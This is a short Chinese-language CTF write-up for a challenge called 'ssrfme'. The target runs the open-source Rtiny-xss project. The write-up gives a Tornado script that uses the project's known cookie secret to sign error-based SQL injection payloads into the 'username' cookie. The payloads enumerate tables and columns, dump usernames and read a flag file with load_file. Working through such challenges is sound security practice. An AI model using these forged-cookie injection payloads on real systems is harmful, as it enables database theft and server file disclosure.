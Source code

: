 
## ssrfme

看大佬wp得到的提示就是github上的开源项目Rtiny：https://github.com/r0ker/Rtiny-xss/tree/master

构造pass为数组，得到报错信息，提示Rtiny

这个项目存在多处sql注入点，查看项目源码可以发现除了pass,email参数外，还要构造username，并且经过`self.get_secure_cookie`塞进cookie里

解题：

1.本地搭建tornado，安装指令python -m pip install tornado，然后运行下列脚本，访问127.0.0.1/index，得到cookie里加密后的报错注入的username

```
# coding:utf-8
import tornado.ioloop
import tornado.web 
# @author: V0W
# @reference: https://blog.csdn.net/include_heqile/article/details/82591707

settings = { 
   "cookie_secret" : "M0ehO260Qm2dD/MQFYfczYpUbJoyrkp6qYoI2hRw2jc=",
}

class MainHandler(tornado.web.RequestHandler):
    def get(self):
        # 依次执行下列语句，爆破数据库，表，列和字段
        self.write("helloword")
        # self.set_secure_cookie("username","' and extractvalue(1,concat(0x5c,(select version()))) -- ")
        # self.set_secure_cookie("username", "' and extractvalue(1,concat(0x5c,(select group_concat(distinct table_name) from information_schema.tables where table_schema=database())))-- ")
        # self.set_secure_cookie("username","' and extractvalue(1,concat(0x5c,(select group_concat(distinct column_name) from information_schema.columns where table_schema=database() and table_name='manager')))-- ")
        # self.set_secure_cookie("username","' and extractvalue(1,concat(0x5c,mid((select group_concat(username) from manager),30,62))) -- ")
        # self.set_secure_cookie("username", "' and extractvalue(1,concat(0x5c,(select load_file('/var/www/html/f13g_ls_here.txt'))))#")
        self.set_secure_cookie("username", "' and extractvalue(1,concat(0x5c,mid((select load_file('/var/www/html/f13g_ls_here.txt')),28,60)))#")
        self.write(self.get_secure_cookie("username"))

def make_app():
    return tornado.web.Application([
        (r"/index", MainHandler),
        ], **settings)

if __name__ == "__main__":
    app = make_app()
    app.listen(8089)
    tornado.ioloop.IOLoop.instance().start()
```
